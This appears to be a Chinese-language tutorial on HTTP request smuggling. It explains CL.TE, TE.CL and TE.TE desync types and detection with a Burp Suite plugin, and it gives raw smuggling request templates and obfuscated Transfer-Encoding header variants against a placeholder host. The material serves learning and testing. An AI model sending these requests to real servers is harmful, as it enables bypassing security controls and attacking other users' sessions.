 ## 简介
HTTP请求走私是一种干扰网站处理从一个或多个用户接收的HTTP请求序列方式的技术，它允许攻击者绕过安全控制获得对敏感数据的未经授权的访问并直接危害其他应用程序用户，请求走私大多发生于前端服务器和后端服务器对客户端传入的数据理解不一致的情况，主要是因为HTTP规范提供了两种不同的方法来指定请求的结束位置，即Content-Length和Transfer-Encoding标头，请求走私主要与HTTP/1请求相关，但是支持HTTP/2的网站可能容易受到攻击，具体取决于其后端架构
### 走私类型
- CL.TE：前端服务器使用Content-Length头，后端服务器使用Transfer-Encoding头
- TE.CL：前端服务器使用Transfer-Encoding标头，后端服务器使用Content-Length标头
- TE.TE：

## 检测
burpsuite插件HTTP Request Smuggler，在拦截到对应的报文后可以右键请求，点击HTTP Request Smuggler->Smuggle Probe，插件会自动修改拦截请求并发送来开始漏洞的检测（检测CL.TE 和 TE.CL），如果有结果会在scan issues activity页面有显示

## 构造

### CL.TE构造格式
前端服务器处理Content-Length标头并确定请求正文的长度为13个字节，直到SMUGGLED结束，这个请求被转发到后端服务器，后端服务器处理Transfer-Encoding头，因此将邮件正文视为使用分块编码，它处理第一个块，该块被声明为零长度，因此被视为终止请求，而后面的字节(走私的)未被处理，后端服务器将把这些视为序列中下一个请求的开始

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```
### TE.CL构造格式
前端服务器处理Transfer-Encoding头，因此将邮件正文视为使用分块编码，它处理第一个块，据说它有8个字节长，直到走私的下一行的开始，它处理第二个块，该块被声明为零长度，因此被视为终止请求，这个请求被转发到后端服务器，后端服务器处理Content-Length标头并确定请求正文的长度为3个字节，直到第8行的开头，接下来的字节，从走私开始没有被处理，后端服务器将把这些视为序列中下一个请求的开始
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

### TE.TE构造格式
通过以某种方式混淆头来诱导其中一个服务器不处理它，可能有无穷无尽的方法来混淆传输编码头
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```